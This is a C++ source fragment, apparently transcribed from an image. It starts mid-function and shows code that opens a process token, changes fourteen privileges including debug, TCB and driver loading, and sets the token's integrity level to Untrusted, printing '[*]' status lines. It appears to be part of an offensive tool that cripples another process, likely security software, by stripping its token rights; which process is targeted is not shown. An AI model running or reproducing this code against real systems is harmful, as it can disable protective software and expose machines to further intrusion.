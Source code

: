 ```c++
  }


  // Remove all privileges
  SetPrivilege(ptoken, SE_DEBUG_NAME, TRUE);
  SetPrivilege(ptoken, SE_CHANGE_NOTIFY_NAME, TRUE);
  SetPrivilege(ptoken, SE_TCB_NAME, TRUE);
  SetPrivilege(ptoken, SE_IMPERSONATE_NAME, TRUE);
  SetPrivilege(ptoken, SE_LOAD_DRIVER_NAME, TRUE);
  SetPrivilege(ptoken, SE_RESTORE_NAME, TRUE);
  SetPrivilege(ptoken, SE_BACKUP_NAME, TRUE);
  SetPrivilege(ptoken, SE_SECURITY_NAME, TRUE);
  SetPrivilege(ptoken, SE_SYSTEM_ENVIRONMENT_NAME, TRUE);
  SetPrivilege(ptoken, SE_INCREASE_QUOTA_NAME, TRUE);
  SetPrivilege(ptoken, SE_TAKE_OWNERSHIP_NAME, TRUE);
  SetPrivilege(ptoken, SE_INC_BASE_PRIORITY_NAME, TRUE);
  SetPrivilege(ptoken, SE_SHUTDOWN_NAME, TRUE);
  SetPrivilege(ptoken, SE_ASSIGNPRIMARYTOKEN_NAME, TRUE);

  printf("[*] Removed All Privileges\n");


  DWORD integrityLevel = SECURITY_MANDATORY_UNTRUSTED_RID;


  SID integrityLevelSid{};
  integrityLevelSid.Revision = SID_REVISION;
  integrityLevelSid.SubAuthorityCount = 1;
  integrityLevelSid.IdentifierAuthority.Value[5] = 16;
  integrityLevelSid.SubAuthority[0] = integrityLevel;

  TOKEN_MANDATORY_LABEL tokenIntegrityLevel = {};
  tokenIntegrityLevel.Label.Attributes = SE_GROUP_INTEGRITY;
  tokenIntegrityLevel.Label.Sid = &integrityLevelSid;

  if (!SetTokenInformation(
      ptoken,
      TokenIntegrityLevel,
      &tokenIntegrityLevel,
      sizeof(TOKEN_MANDATORY_LABEL) + GetLengthSid(&integrityLevelSid)))
  {
      printf("SetTokenInformation failed\n");
  }
  else {

      printf("[*] Token Integrity set to Untrusted\n");
  }

  CloseHandle(ptoken);
  CloseHandle(phandle);

}
```

